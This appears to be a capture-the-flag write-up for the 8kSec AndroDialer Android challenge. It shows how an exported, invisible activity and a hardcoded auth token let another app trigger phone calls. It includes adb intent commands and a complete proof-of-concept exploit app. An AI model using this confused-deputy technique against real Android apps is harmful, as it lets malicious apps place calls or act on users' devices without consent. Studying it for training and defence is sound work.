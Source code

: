 **Description**: AndroDialer is a powerful, feature-rich phone application designed to enhance your calling experience with advanced functionality and seamless integration.

**Link**: https://academy.8ksec.io/course/android-application-exploitation-challenges

![[8ksec-AndroDialer_1.png]]

Install the `.apk` file using **ADB**
```bash
adb install -r AndroDialer.apk
```

We can see in the settings functions some features of the app.
Take a look to the app and try use it. It's important give all the permissions to the app.
Also, **add the widget to Home Screen** and use it.
Let's inspect the **source code**, for that, we'll use **JADX**.

Looking in the `AndroidManifest.xml` file, we can notice that the *package name* is `com.eightksec.androdialer`.

There are a *couple of components*, but we just will focus on this:
```XML
<activity
    android:theme="@android:style/Theme.NoDisplay"
    android:name="com.eightksec.androdialer.CallHandlerServiceActivity"
    android:exported="true"
    android:taskAffinity=""
    android:excludeFromRecents="true">
    <intent-filter>
        <action android:name="com.eightksec.androdialer.action.PERFORM_CALL"/>
        <category android:name="android.intent.category.DEFAULT"/>
    </intent-filter>
    <intent-filter>
        <action android:name="android.intent.action.VIEW"/>
        <category android:name="android.intent.category.DEFAULT"/>
        <category android:name="android.intent.category.BROWSABLE"/>
        <data android:scheme="tel"/>
    </intent-filter>
    <intent-filter>
        <action android:name="android.intent.action.VIEW"/>
        <category android:name="android.intent.category.DEFAULT"/>
        <category android:name="android.intent.category.BROWSABLE"/>
        <data
            android:scheme="dialersec"
            android:host="call"/>
    </intent-filter>
</activity>
```

We have serious problems here, for example:

- **Exported and accessible** from external apps.

- Processes `Intent.ACTION_VIEW` with `scheme=tel:`.

- `@android:style/Theme.NoDisplay` -> Invisible activity.

- This is the **main vulnerable component** (*Confused Deputy / Privilege Re-delegation*).

We can see the
```XML
<action android:name="com.eightksec.androdialer.action.PERFORM_CALL"/>
```
action. But it is just another surface attack. We don't need this action because we have the
```XML
<data android:scheme="tel"/>
```
scheme.

Now let's take a look to **classes**. We can see a lot, but, as I mentioned, let's focus into  `CallHandlerServiceActivity` class.

Here we found an **hardcoded token**:
```java
[...]
[...]
[...]
if (str7.equals("8kd1aL3R_s3Cur3_k3Y_2023") || 
    str7.equals("8kd1aL3R-s3Cur3-k3Y-2023") || 
    AbstractC2986h.m5786a(str, "8kd1aL3R_s3Cur3_k3Y_2023") || 
    AbstractC2986h.m5786a(str, "8kd1aL3R-s3Cur3-k3Y-2023")) {
    
    if (getIntent().hasExtra("phoneNumber")) {
        str3 = getIntent().getStringExtra("phoneNumber");
[...]
[...]
[...]
```

Token: **`8kd1aL3R_s3Cur3_k3Y_2023`**

Also notice the name of *variable*: **`enterprise_auth_token`**, this sound important.
And here we can see how *scheme works*
```java
[...]
[...]
if (AbstractC2986h.m5786a(data2 != null ? data2.getScheme() : null, "tel")) {
    Uri data3 = getIntent().getData();
    if (data3 != null) {
        str3 = data3.getSchemeSpecificPart();
    }
} else {
    Uri data4 = getIntent().getData();
    if (AbstractC2986h.m5786a(data4 != null ? data4.getScheme() : null, "dialersec")) {
        Uri data5 = getIntent().getData();
        if (AbstractC2986h.m5786a(data5 != null ? data5.getHost() : null, "call")) {
            Uri data6 = getIntent().getData();
            String queryParameter = data6 != null ? data6.getQueryParameter("number") : null;
            if (queryParameter == null || queryParameter.length() == 0) {
                List<String> pathSegments3 = data != null ? data.getPathSegments() : null;
                Integer valueOf = pathSegments3 != null ? Integer.valueOf(pathSegments3.indexOf("number")) : null;
                if (valueOf != null && valueOf.intValue() >= 0 && valueOf.intValue() < pathSegments3.size() - 1) {
                    str3 = pathSegments3.get(valueOf.intValue() + 1);
                }
            } else {
                str3 = queryParameter;
            }
        }
    }
[...]
[...]
[...]
```

We have *two extras*:

- `arrayList.add(getIntent().getStringExtra("enterprise_auth_token"));`

- `str3 = getIntent().getStringExtra("phoneNumber");`

So, this seems simple, we just can test it using **ADB** and then, send the intent:
```bash
adb shell am start \
  -n com.eightksec.androdialer/.CallHandlerServiceActivity \
  -a android.intent.action.VIEW \
  --es enterprise_auth_token 8kd1aL3R_s3Cur3_k3Y_2023 \
  --es phoneNumber 13371337
```
Or, avoiding `phoneNumber` as extra:
```bash
adb shell am start \
  -n com.eightksec.androdialer/.CallHandlerServiceActivity \
  -a android.intent.action.VIEW \
  -d "tel:13371337" \
  --es enterprise_auth_token 8kd1aL3R_s3Cur3_k3Y_2023
```

If this works for you, you can now **develop the PoC application**!
### PoC
**`AndroidManifest.xml`**
```XML
<?xml version="1.0" encoding="utf-8"?>  
<manifest xmlns:android="http://schemas.android.com/apk/res/android"  
    xmlns:tools="http://schemas.android.com/tools">  
  
    <application  
        android:allowBackup="true"  
        android:label="PoCAndroDialer"  
        android:supportsRtl="true"  
        android:theme="@style/Theme.AppCompat.Light.NoActionBar">  
        <activity android:name=".MainActivity"  
            android:exported="true">  
            <intent-filter>  
                <action android:name="android.intent.action.MAIN"/>  
                <category android:name="android.intent.category.LAUNCHER"/>  
            </intent-filter>  
        </activity>  
    </application>  
  
</manifest>
```

**`MainActivity.java`**
```java
package com.lautaro.androdialer;  
  
import android.content.Intent;  
import android.net.Uri;  
import android.os.Bundle;  
import androidx.appcompat.app.AppCompatActivity;  
  
public class MainActivity extends AppCompatActivity {  
  
    @Override  
    protected void onCreate(Bundle savedInstanceState) {  
        super.onCreate(savedInstanceState);  
  
        // Send intent  
        Intent exploit = new Intent(Intent.ACTION_VIEW);  
        exploit.setClassName(  
                "com.eightksec.androdialer",  
                "com.eightksec.androdialer.CallHandlerServiceActivity"  
        );  
        exploit.setData(Uri.parse("tel:13371337"));  
        exploit.putExtra("enterprise_auth_token", "8kd1aL3R_s3Cur3_k3Y_2023");  
  
        startActivity(exploit);  
        finish();  
    }  
  
}
```

Compile, install and then, you will notice a call to `1337-1337`

I hope you found it useful (:

